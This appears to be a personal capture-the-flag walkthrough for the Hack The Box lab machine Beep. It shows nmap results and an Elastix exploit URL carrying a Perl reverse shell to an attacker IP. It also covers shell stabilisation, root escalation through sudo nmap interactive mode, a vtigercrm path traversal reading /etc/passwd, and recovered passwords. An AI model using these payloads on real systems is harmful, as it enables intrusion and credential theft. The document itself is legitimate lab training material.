 
nmap
```
PORT      STATE SERVICE          REASON
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: IMPLEMENTATION(Cyrus POP3 server v2) TOP RESP-CODES LOGIN-DELAY(0) PIPELINING USER EXPIRE(NEVER) AUTH-RESP-CODE STLS UIDL APOP
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            874/udp   status
|_  100024  1            877/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ACL CHILDREN RENAME UIDPLUS SORT=MODSEQ OK LISTEXT URLAUTHA0001 ATOMIC ID RIGHTS=kxte ANNOTATEMORE CONDSTORE SORT X-NETSCAPE IDLE MULTIAPPEND MAILBOX-REFERRALS IMAP4 THREAD=REFERENCES BINARY CATENATE NO QUOTA UNSELECT Completed STARTTLS LIST-SUBSCRIBED THREAD=ORDEREDSUBJECT LITERAL+ IMAP4rev1 NAMESPACE
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_http-title: Elastix - Login page
|_ssl-date: 2023-08-08T16:21:04+00:00; -5s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)

```

elastix named framework is running:
![[walkthroughs/HACKTHEBOX/Beep/IMG/Pasted image 20230808215039.png]]
Also a service running on port 10000 webmin named
I found an exploit for this service which dated to 2012 , so when I ran even with some modifications it didn't run , the I saw the code it was just sending the url with the parameters that I manually modified and this was the url:
```
url = 'https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.16.33%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'
```
Where I changed the extension from 1000 to 233 and I got the shell
got the shell stable with:
***
step 1:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

step 2:
do `ctrl+z` your main system terminal should have opened and then write this:
```
stty raw -echo; fg
```

then press `enter` two times , your terminal for the machine should be back , also type this to get some env variables like clear in that machine:
```
export TERM=xterm
```
***
We get the shell -> there are 2 users:
1. fanis {we find the user flag here}
2. spamfilter
Inside the `/var/www/` there was the db folder for us there was these files:
![[walkthroughs/HACKTHEBOX/Beep/IMG/Pasted image 20230808225336.png]]
```
acl.db			 endpoint.db	       rate.db
addons.db		 fax.db		       register.db
address_book.db		 FTP.db		       samples.db
calendar.db		 hardware_detector.db  settings_2017Apr07_112326
control_panel_design.db  iptables.db	       settings.db
dashboard.db		 menu.db	       trunk.db
email.db		 network.db	       trunk-pbx.db
```
manually searching for pass in `/var/www/html/configs`:
![[walkthroughs/HACKTHEBOX/Beep/IMG/Pasted image 20230808230841.png]]
![[walkthroughs/HACKTHEBOX/Beep/IMG/Pasted image 20230808231018.png]]
![[walkthroughs/HACKTHEBOX/Beep/IMG/Pasted image 20230808233816.png]]
I forgot to run `sudo -l` , when I did:
![[walkthroughs/HACKTHEBOX/Beep/IMG/Pasted image 20230809003302.png]]
I did `sudo nmap --interactive` , and through that we can spawn a bash shell:`!sh` , we get shell as root
# Method 2: via LFI
I also found different endpoints
`https://10.10.10.7/vtigercrm/`
![[walkthroughs/HACKTHEBOX/Beep/IMG/Pasted image 20230809001132.png]]
![[walkthroughs/HACKTHEBOX/Beep/IMG/Pasted image 20230809001018.png]]
can we poison the log?, can we collect information credentials?
Ig we can: I found this file that had the credentials:
in the tigervnc endpoint
`graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action](https://10.10.10.7/vtigercrm/graph.php?current_language=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F%2Fetc%2Fpasswd%00&module=Accounts&action=)`
![[walkthroughs/HACKTHEBOX/Beep/IMG/Pasted image 20230809010459.png]]

```
jEhdIekWmdjE
amp111
amp109
```
Possible Valid Users:  
```
rootasterisk  
admin  
asteriskuser  
cyrus  
fanis  
spamfilter  
mysql
```
when we bruteforce the passwords for ssh we also find the password for root, as well as when we try it to webmin we see the creds working there too , we can create a task that can help us get the shell by uploading the reverse shell {I saw this on another writeup}
